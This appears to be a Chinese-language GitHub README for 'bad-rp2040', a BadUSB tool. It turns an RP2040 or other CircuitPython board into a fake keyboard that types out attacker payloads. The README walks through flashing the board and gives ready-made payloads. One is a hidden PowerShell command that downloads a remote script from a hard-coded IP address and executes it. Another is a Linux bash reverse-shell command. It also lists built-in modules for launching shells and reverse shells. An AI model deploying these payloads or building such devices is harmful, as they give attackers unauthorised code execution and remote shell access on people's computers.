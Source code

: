 # bad-rp2040

第一版 还要修修

## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

> 目前尚在开发中，很多功能并不全面画横线的表示正在开发中

可用案例：

#### windows

```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```

#### linux

```badusb
set Time 1
LINUX_OPENSHELL
LINUX_RESHELL 127.0.0.1 4444
```

将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模块

| 命令     | 作用                       |
-----------|---------------------------|
| POWERSHELL | 快速拉起powershell     |
| TOGGLE_INPUT | 快速切换输入法     |
| LINUX_OPENSHELL | 快速拉起linux shell   |
| LINUX_RESHELL | 使用bash -i反弹shell模板   |
| ECHO | 输出字符串     |

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置命令隔时间 不建议太快    |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)
![shell](https://s2.loli.net/2024/12/04/oTHgaxBFnsqUGNM.png)